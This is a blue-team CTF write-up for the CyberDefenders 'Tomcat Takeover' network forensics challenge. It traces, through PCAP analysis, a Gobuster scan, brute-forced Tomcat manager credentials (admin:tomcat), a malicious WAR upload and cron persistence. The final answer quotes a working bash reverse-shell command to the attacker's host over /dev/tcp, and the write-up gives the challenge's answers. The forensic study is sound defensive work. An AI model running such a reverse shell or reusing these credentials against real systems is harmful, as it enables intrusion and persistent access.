 # [CyberDefenders - Tomcat Takeover](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)
Created: 22/02/2024 10:30
Last Updated: 22/02/2024 11:32
* * *
>Category: Network Forensics
>Tags: Wireshark, PCAP, Tomcat, Network, NetworkMiner, T1071, T1083, T1110, T1027, T1053.003, T1059, T1595
* * *
## Questions
> Q1: Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

![3d442e3a446f348ae6685626b1ffd015.png](../../_resources/3d442e3a446f348ae6685626b1ffd015.png)
I used http filter and found that the server might be `10.0.0.112` running on port `8080`
![da93e93362697a2cb76dad531f5f9bbd.png](../../_resources/da93e93362697a2cb76dad531f5f9bbd.png)
![1dbc530e5e62dffe7cebc1cf8e7e745f.png](../../_resources/1dbc530e5e62dffe7cebc1cf8e7e745f.png)
I kept scrolling and found something suspicious, there were a lot of 4xx Error from the server response to `14.0.0.120` and it seems like this IP address is an attacker

Looking at the User-Agent, it seems like this attacker used [Gobuster](https://github.com/OJ/gobuster) a brute forcing tool to enumerate directories on the server
```
14.0.0.120
```

> Q2: 
Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

![0b38b8b83f669ba738b2c7ce9058f73d.png](../../_resources/0b38b8b83f669ba738b2c7ce9058f73d.png)
```
Guangzhou
```

> Q3: 
From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?

![db7dfbf450ae4fd298ac76ac93c1f9a7.png](../../_resources/db7dfbf450ae4fd298ac76ac93c1f9a7.png)
```
8080
```

> Q4: 
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
```
gobuster
```

> Q5: Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

![ca2c8c1c6bbcf155ddee4e71611e47e0.png](../../_resources/ca2c8c1c6bbcf155ddee4e71611e47e0.png)
The `/admin` was not right so I kept scrolling and found that `/manager` is likely to be the one I was looking for
```
/manager
```

> Q6: Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

![c26fd6816301db342e91e572813a500d.png](../../_resources/c26fd6816301db342e91e572813a500d.png)
After found the admin panel, the attacker bruteforcing out
![ba68edd11dc8f034f44d5fc5f3b3a0e1.png](../../_resources/ba68edd11dc8f034f44d5fc5f3b3a0e1.png)
Follow the HTTP stream, And look like the user credential were presented on the page source but it's not the right one so I kept searching
![a19f3a664a15fbd1b1edc3347e9043cd.png](../../_resources/a19f3a664a15fbd1b1edc3347e9043cd.png)
And I finally found it, on the HTTP POST method
```
admin:tomcat
```

> Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

![14c85f398c10e8826b97d2312705f0ca.png](../../_resources/14c85f398c10e8826b97d2312705f0ca.png)
On the HTTP POST Method, I follow the TCP stream and found the file name of the uploaded file
```
JXQOZY.war
```

> Q8: Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

![bdc75ed35229fef54135ebceec256d2a.png](../../_resources/bdc75ed35229fef54135ebceec256d2a.png)
After the attacker uploaded a reverse shell to the server, the attacker triggered it and connection were established
![749fe59ca664cc6214844e825816513c.png](../../_resources/749fe59ca664cc6214844e825816513c.png)
I followed the TCP stream of that connection and found that the attacker added the bash reverse shell to cronjob so this is the way for an attacker to stay persistance
```
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

![7d75d6b9739a0c9a3eaeec231fc869ee.png](../../_resources/7d75d6b9739a0c9a3eaeec231fc869ee.png)
* * *